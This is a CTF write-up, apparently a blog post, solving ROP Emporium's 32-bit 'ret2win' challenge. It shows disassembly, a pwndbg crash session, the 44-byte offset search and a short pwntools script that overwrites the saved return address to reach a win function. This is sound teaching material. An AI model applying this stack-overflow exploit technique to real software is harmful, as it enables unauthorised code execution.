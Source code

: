```yaml
---
title: "ret2win [ROPEmporium]"
date: 2018-05-20 00:00:06 +0530
categories:
  - Write-ups
header:
  teaser: "https://i.imgur.com/FJ8LnvR.png"
tags:
  - ROPEmporium
  - ROP
excerpt: "Writeup for ret2win, problems in the ROP Emporium Problem Set"
---
```

Here's the [problem link](https://ropemporium.com/challenge/ret2win.html).  
Here are the provided binaries:
[32bit](/assets/write-ups/ropemporium/ret2win/ret2win32), [64bit](/assets/write-ups/ropemporium/ret2win/ret2win)



```
Locate a method within the binary that you want to call and do so by
overwriting a saved return address on the stack.
```

Seems pretty easy.  
Since this chal is pretty straightforward, let's
start with the 32 bit one.
`objdump` tells us there is a `ret2win` function:
{% highlight nasm%}
080485f6 <pwnme>:
 80485f6:       55                      push   ebp
 80485f7:       89 e5                   mov    ebp,esp
 80485f9:       83 ec 28                sub    esp,0x28
 80485fc:       83 ec 04                sub    esp,0x4
                            ...
 8048653:       83 c4 10                add    esp,0x10
 8048656:       90                      nop
 8048657:       c9                      leave
 8048658:       c3                      ret

08048659 <ret2win>:
 8048659:       55                      push   ebp
 804865a:       89 e5                   mov    ebp,esp
 804865c:       83 ec 08                sub    esp,0x8
 804865f:       83 ec 0c                sub    esp,0xc
 8048662:       68 24 88 04 08          push   0x8048824
 8048667:       e8 94 fd ff ff          call   8048400 <printf@plt>
 804866c:       83 c4 10                add    esp,0x10
 804866f:       83 ec 0c                sub    esp,0xc
 8048672:       68 41 88 04 08          push   0x8048841
 8048677:       e8 b4 fd ff ff          call   8048430 <system@plt>
 804867c:       83 c4 10                add    esp,0x10
 804867f:       90                      nop
 8048680:       c9                      leave
 8048681:       c3                      ret
{% endhighlight %}

This is basically a `cat flag.txt` which needs to be jumped to.  
Let's run this:
```console
$ ./ret2win32
ret2win by ROP Emporium
32bits

For my first trick, I will attempt to fit 50 bytes of user input into 32 bytes of stack buffer;
What could possibly go wrong?
You there madam, may I have your input please? And don't worry about null bytes, we're using fgets!

>
```

Let's do it:

<!--![](/assets/write-ups/ropemporium/ret2win/pwndbg.png)-->

{% highlight nasm%}
$ pwndbg ./ret2win32
Reading symbols from ./ret2win32...(no debugging symbols found)...done.
pwndbg: loaded 177 commands. Type pwndbg [filter] for a list.
pwndbg: created $rebase, $ida gdb functions (can be used with print/break)
pwndbg> cyclic 50
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama
pwndbg> r
Starting program: /home/kunal/Documents/CTF/ROPEMporiumAgain/ret2win/32bit/ret2win32
ret2win by ROP Emporium
32bits

For my first trick, I will attempt to fit 50 bytes of user input into 32 bytes of stack buffer;
What could possibly go wrong?
You there madam, may I have your input please? And don't worry about null bytes, we're using fgets!

> aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama

Program received signal SIGSEGV, Segmentation fault.
0x6161616c in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
─────────────────────────────────────────[ REGISTERS ]─────────────────────────────────────────
 EAX  0xffffc8e0 ◂— 0x61616161 ('aaaa')
 EBX  0x0
 ECX  0xf7f8889c ◂— 0x0
 EDX  0xffffc8e0 ◂— 0x61616161 ('aaaa')
 EDI  0xf7f87000 ◂— 0x1d9d6c
 ESI  0xf7f87000 ◂— 0x1d9d6c
 EBP  0x6161616b ('kaaa')
 ESP  0xffffc910 —▸ 0xf7fe006d ◂— jge    0xf7fe0077
 EIP  0x6161616c ('laaa')
──────────────────────────────────────────[ DISASM ]───────────────────────────────────────────
Invalid address 0x6161616c






───────────────────────────────────────────[ STACK ]───────────────────────────────────────────
00:0000│ esp  0xffffc910 —▸ 0xf7fe006d ◂— jge    0xf7fe0077
01:0004│      0xffffc914 —▸ 0xffffc930 ◂— 0x1
02:0008│      0xffffc918 ◂— 0x0
03:000c│      0xffffc91c —▸ 0xf7dc7b41 (__libc_start_main+241) ◂— add    esp, 0x10
04:0010│      0xffffc920 —▸ 0xf7f87000 ◂— 0x1d9d6c
... ↓
06:0018│      0xffffc928 ◂— 0x0
07:001c│      0xffffc92c —▸ 0xf7dc7b41 (__libc_start_main+241) ◂— add    esp, 0x10
─────────────────────────────────────────[ BACKTRACE ]─────────────────────────────────────────
 ► f 0 6161616c
Program received signal SIGSEGV (fault address 0x6161616c)
pwndbg>

{% endhighlight %}

Find the offset to overwrite the saved `eip`:

```console
cyclic -l 0x6161616c
44
```

And write the corresponding address of our `ret2win` function (`0x08048659`) after the 44 byte padding:

{% highlight python %}
from pwn import *
context.update(arch='i386', os='linux')

binary = './ret2win32'
elf = ELF(binary)

win = elf.functions['ret2win'].address


with open('solve.txt', 'w') as f:
    f.write(cyclic(44))
    f.write(p32(win))

# p = process(binary)
# p.send(cyclic(44) + p32(win))
# p.interactive()
{% endhighlight %}

And finally get the flag:

```console
$ ./ret2win32 < solve.txt
ret2win by ROP Emporium
32bits

For my first trick, I will attempt to fit 50 bytes of user input into 32 bytes of stack buffer;
What could possibly go wrong?
You there madam, may I have your input please? And don't worry about null bytes, we're using fgets!

> Thank you! Here's your flag:ROPE{a_placeholder_32byte_flag!}
zsh: segmentation fault (core dumped)  ./ret2win32 < solve.txt
```

The 64bit version can be easily solved by simply changing the padding to
`40` and updating the `ret2win`'s address.
